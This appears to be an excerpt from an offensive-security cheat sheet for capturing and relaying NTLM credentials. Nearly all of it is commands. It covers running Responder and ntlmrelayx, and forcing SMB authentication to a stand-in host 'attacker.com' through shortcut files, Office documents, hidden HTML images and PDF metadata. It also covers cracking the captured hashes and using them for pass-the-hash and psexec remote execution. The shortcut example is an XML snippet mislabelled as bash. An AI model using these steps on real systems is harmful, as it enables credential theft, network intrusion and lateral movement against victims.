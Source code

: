 ```bash
# Using Responder to capture NTLM hashes
responder -I eth0 -wrf

# Using ntlmrelayx to relay authentication
ntlmrelayx.py -tf targets.txt -smb2support

# Setting up SMB server with Impacket
impacket-smbserver share /tmp/share
```

### Forcing Authentication

#### Link-File Method

```bash
# Create a Windows .lnk file that forces SMB authentication
<?xml version="1.0" encoding="UTF-8"?>
<shortcut>
  <icon_file>\\attacker.com\share\icon.ico</icon_file>
</shortcut>

# Place in accessible locations like SharePoint, email attachments, USB drives
```

#### MS Office Documents

```bash
# Create a Word document with external image
<img src="\\attacker.com\share\image.jpg" width="1" height="1" />

# For Excel, create an external reference
=HYPERLINK("\\attacker.com\share\doc.xlsx", "Click Here")
```

#### HTML Email/Web Page Method

```html
<!-- Insert into HTML email or webpage -->
<img src="file://attacker.com/share/image.jpg" style="display:none">
```

#### PDF Embedding

```bash
# Using PDF techniques that request external resources
exiftool -DocumentName="\\\\attacker.com\\share\\file.txt" document.pdf
```

### Capturing and Using Credentials

```bash
# Extract captured hashes from Responder
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-[IP].txt

# Cracking with hashcat (NTLMv2)
hashcat -m 5600 hashes.txt wordlist.txt

# Pass-the-Hash attacks with CrackMapExec 
crackmapexec smb target.com -u administrator -H HASH

# Using Impacket with NTLM hash
impacket-psexec -hashes LMHASH:NTHASH administrator@target.com
```
